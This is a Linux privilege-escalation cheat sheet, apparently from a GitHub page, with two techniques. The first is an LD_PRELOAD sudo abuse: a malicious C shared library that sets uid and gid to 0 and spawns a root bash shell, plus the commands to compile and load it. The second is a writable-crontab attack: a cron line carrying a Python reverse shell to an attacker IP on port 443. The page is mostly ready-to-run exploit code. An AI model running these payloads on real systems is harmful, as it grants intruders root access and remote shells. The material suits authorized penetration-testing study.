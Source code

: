 <br>

## LD_PRELOAD SUID
> LD_PRELOAD is an environment variable used in Unix-like operating systems that allows you to specify additional shared libraries to be loaded before others. This can override existing functions in the target program’s shared libraries.

**Test**
```bash
sudo -l
```
```plain
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD
```

**Exploit**
```bash  
env # look for LD_PRELOAD
```
```c /tmp/malicious.c - create a library that overrides the standard one
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
```bash compile the shared library
gcc -fPIC -shared -o /tmp/malicious.so /tmp/malicious.c -nostartfiles
```
```bash set the new library
export LD_PRELOAD=/tmp/malicious.so
printenv LD_PRELOAD
```
```bash run a program such as apache
sudo LD_PRELOAD=/tmp/malicious.so apache2
```

<br>

## Writable crontab
> Define commands that should be executed on the system at regular intervals

**Test**
```bash
(crontab -l; echo "* * * * * /bin/echo 'Crontab is writable' > /tmp/crontab_test") | crontab -
```

**Exploit**
Extract attacker IP
```bash
ip a s
```
Add line to crontab (open `nano` editor)
```bash
crontab -e
```
```bash crontab command
* * * * * python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
